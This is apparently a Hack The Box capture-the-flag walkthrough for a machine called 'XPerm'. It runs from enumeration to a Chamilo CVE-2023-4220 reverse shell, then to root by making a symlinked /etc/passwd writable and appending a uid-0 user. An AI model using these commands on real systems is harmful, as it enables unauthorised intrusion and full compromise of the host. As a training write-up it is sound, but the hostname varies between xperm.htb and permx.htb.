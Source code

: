 # HTB Machine Walkthrough: XPerm

> [!IMPORTANT]  
> **Please use this as a hint or guide if you're blocked at some point of this machine, i make those files for myself and to help some friends that are also doing those machines.**


> [!NOTE]  
> **Try to get as far as you can by yourself or you will never learn to make machines alone. Hope you the best and happy hacking <3.**

## 1. Execute a Fast Nmap Scan on the Provided IP

  

To quickly identify open ports and services, use the following command:

  

```bash

nmap  -sC  -Sv  -n  -Pn  --min-rate  300  $IP  -vvv

```

  

### Result:

-  **22/tcp**: SSH

-  **80/tcp**: HTTP

  

## 2. Update /etc/hosts

  

Add the machine's IP to the `/etc/hosts` file and link it to `xperm.htb` for easier access.

  

## 3. FFUF the Page to Find Subdomains and Directories

  

Use FFUF to discover potential subdomains and directories:

  

```bash

ffuf  -u  http://xperm.htb/FUZZ  -w  /path/to/wordlist

```

  

### Result:

You will find some directories where you can't really do anything, but you will find a subdomain named **lms**.

  

## 4. FFUF the Subdomain

  

Run FFUF again, targeting the `lms` subdomain:

  

```bash

ffuf  -u  http://lms.xperm.htb/FUZZ  -w  /path/to/wordlist

```

  

### Result:

-  **/main**

-  **/documentation**

  

## 5. Search for Information on "Chamilo" in /documentation

  

Look for details about the Chamilo version in the `/documentation` section.

  

### Result:

The changelog reveals that the last version in use is **1.11.24**.

  

## 6. Search for an Exploit for the Exact Version

  

Look up any known vulnerabilities for Chamilo 1.11.24.

  

### Result:

An RCE exploit, CVE-2023-4220, is found.

  

## 7. Exploit the CVE

  

To exploit this CVE, use the repository available at [chamilo-lms-unauthenticated-big-upload-rce-poc](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc). This repository includes a Python script that exploits the vulnerability.

  

### Steps:

1.  **Clone the repo**:

```bash

git clone https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc

```

  

2.  **Enter the repo directory**:

```bash

cd chamilo-lms-unauthenticated-big-upload-rce-poc

```

  

3.  **Set up a listener with netcat**:

```bash

nc -lnvp $any_port

```

  

4.  **Execute the main.py**:

```bash

python3 main.py -u http://lms.permx.htb -a revshell

```

-  **Note**: Follow the steps the program prompts.

  

### Result:

A shell is obtained. Next, escalate privileges from the `www-data` user.

  

## 8. Privilege Escalation

  

### 8.1. Upload and Execute linpeas.sh

  

Use `linpeas.sh` to enumerate the system and find useful information.

  

### Result:

You'll obtain a username and password.

  

### 8.2. Identify the User

  

Check the `/home` directory to find the username.

  

### 8.3. Connect via SSH

  

Attempt to connect using the obtained password:

  

```bash

ssh  user@xperm.htb

```

  

### Result:

You are now connected as the "user".

  

## 9. Retrieve the User Flag

  

The user flag is located in the `/home/user` directory as `user.txt`.

  

## 10. Privilege Escalation to Root

  

Check the sudo privileges:

  

```bash

sudo  -l

```

  

### Result:

You have access to `/opt/acl.sh`.

  

## 11. Inspect the Script

  

Review the `acl.sh` script to understand how it can be exploited.

  

### Result:

The script can be manipulated to grant permissions on any file.

  

## 12. Create a Symbolic Link

  

Create a symbolic link to `/etc/passwd` in your home directory:

  

```bash

ln  -s  /etc/passwd  passwd

```

  

## 13. Use the Script to Gain Write Access

  

Run the script to grant write access to the symbolic link:

  

```bash

/opt/acl.sh  user  rwx  /home/$user/passwd

```

  

## 14. Create a Password Hash

  

Generate a password hash using OpenSSL:

  

```bash

openssl  passwd  -1  "Zer0plusOne"

```

  

## 15. Add a New Root User

  

Append the new user details to the passwd file:

  

```bash

echo  'newuser:$1$randomsalt$hash:0:0:root:/root:/bin/bash' >> /home/$user/passwd

```

  

## 16. Switch to the Root User

  

Now you have root access. Retrieve the root flag located in `/root` as `root.txt`.

  

# MACHINE COMPLETED

